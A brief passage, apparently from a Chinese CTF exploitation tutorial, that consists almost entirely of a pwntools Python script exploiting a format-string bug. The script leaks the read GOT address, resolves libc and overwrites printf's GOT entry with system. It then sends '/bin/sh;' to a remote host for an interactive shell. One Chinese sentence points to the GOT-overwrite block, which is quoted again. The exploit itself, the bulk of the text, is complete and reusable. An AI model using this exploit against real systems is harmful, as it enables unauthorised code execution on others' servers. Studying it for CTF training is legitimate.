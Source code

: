 ```python
read_got = 0x601020
printf_got = 0x601018
sh = remote(ip, port)
## let the read get resolved
sh.sendline('a')
sh.recv()
## get printf addr
payload = '%00008$s' + 'STARTEND' + p64(read_got)
sh.sendline(payload)
data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
sh.recv()
read_addr = u64(data)

## get system addr
libc = LibcSearcher('read', read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
log.success('system addr: ' + hex(system_addr))
log.success('read   addr: ' + hex(read_addr))
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()

## get shell
sh.sendline('/bin/sh;')
sh.interactive()
```

这里需要注意的是这一段代码

```python
## modify printf_got
payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
## get all the addr
addr = payload[:32]
payload = '%32d' + payload[32:]
offset = (int)(math.ceil(len(payload) / 8.0) + 1)
for i in range(6, 10):
    old = '%{}$'.format(i)
    new = '%{}$'.format(offset + i)
    payload = payload.replace(old, new)
remainer = len(payload) % 8
payload += (8 - remainer) * 'a'
payload += addr
sh.sendline(payload)
sh.recv()
```
